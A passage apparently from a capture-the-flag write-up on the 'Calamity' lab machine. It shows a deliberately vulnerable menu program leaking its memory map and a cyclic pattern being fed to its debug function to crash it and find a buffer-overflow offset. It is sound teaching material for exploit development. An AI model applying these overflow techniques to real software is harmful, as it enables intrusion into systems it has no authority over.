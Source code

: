      action: 4

    Filename:  /tmp/0xdf


            -----MENU-----
    1) leave message to admin
    2) print session ID
    3)login (admin only)
    4)change user
    5)exit

     action: 3

    this function is problematic on purpose

    I'm trying to test some things...and that means get control of the program! 
    vulnerable pointer is at bffff5c0
    memory information on this binary:

    80000000-80002000 r-xp 00000000 08:01 404837     /home/xalvas/app/goodluck
    80002000-80003000 r--p 00001000 08:01 404837     /home/xalvas/app/goodluck
    80003000-80004000 rw-p 00002000 08:01 404837     /home/xalvas/app/goodluck
    80004000-80025000 rw-p 00000000 00:00 0          [heap]
    b7e1a000-b7e54000 r-xp 00000000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7e54000-b7e55000 r--p 0003a000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7e55000-b7fca000 r-xp 0003b000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fca000-b7fcc000 r--p 001af000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fcc000-b7fcd000 rw-p 001b1000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fcd000-b7fd0000 rw-p 00000000 00:00 0 
    b7fd6000-b7fd8000 rw-p 00000000 00:00 0 
    b7fd8000-b7fda000 r--p 00000000 00:00 0          [vvar]
    b7fda000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
    b7fdb000-b7ffd000 r-xp 00000000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    b7ffd000-b7ffe000 rw-p 00000000 00:00 0 
    b7ffe000-b7fff000 r--p 00022000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    b7fff000-b8000000 rw-p 00023000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    bfedf000-c0000000 rw-p 00000000 00:00 0          [stack]



    Filename:



Put the pattern into a file:



    xalvas@calamity:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9" > /tmp/0xdf



And give that to the `debug` function. On hitting enter, it crashes:



    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x63413563 in ?? ()
